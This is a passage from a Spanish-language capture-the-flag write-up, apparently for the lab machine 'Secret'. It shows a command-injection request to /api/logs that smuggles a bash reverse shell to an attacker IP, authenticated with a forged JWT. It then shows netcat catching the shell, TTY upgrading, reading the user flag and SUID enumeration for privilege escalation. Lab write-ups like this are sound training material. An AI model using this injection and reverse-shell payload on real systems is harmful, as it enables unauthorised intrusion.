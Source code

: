 Nos ponemos en escucha por el puerto 443 `nc -nlvp 443`, toca conseguir una shell:
```
❯ curl -s -G "http://10.10.11.120/api/logs" --data-urlencode "file=;bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1'" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2NDIxYTI2ZjQ3ZjZlNTA0NjNhNjdmOTQiLCJuYW1lIjpbInRoZWFkbWluIl0sImVtYWlsIjoiZ3VpbGxlcm1vQHNlY3JldC5jb20iLCJpYXQiOjE2Nzk5MjYwOTR9.puIuQaDX9t0udVwZT7NTzPrNNe8XF8h0A6soVFRJZ0M" | jq
``` 
Y por el puerto 443, en escucha, conseguimos la reverse shell.
```
❯ nc -nlvp 443

listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.120] 44052
bash: cannot set terminal process group (1123): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ whoami
dasith
dasith@secret:~/local-web$ 
```
Realizamos el tratamiento típico de la tty:
```
dasith@secret:~/local-web$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
dasith@secret:~/local-web$ ^Z
zsh: suspended  nc -nlvp 443
```
Con lo último nos saldrá de la terminal objetivo. Ahora en la nuestra:
```
> stty raw -echo; fg
            reset xterm
```
Recuperamos terminal ajena. Y ya por último:
```
dasith@secret:~/local-web$ export TERM=xterm
dasith@secret:~/local-web$ export SHELL=bash
dasith@secret:~/local-web$ stty rows 38 columns 184
```
Somos el usuario dashith, vamos a visualizar la primera flag:
``` 
dasith@secret:~$ cat user.txt
fa17dfc3b275eb4dac98cf*********
```

## Escalada de privilegios

```
dasith@secret:~$ id
uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)

dasith@secret:~$ sudo -l
[sudo] password for dasith:     *** No tenemos así que malamente

dasith@secret:~$ find / \-perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/snapd/snap-confine
```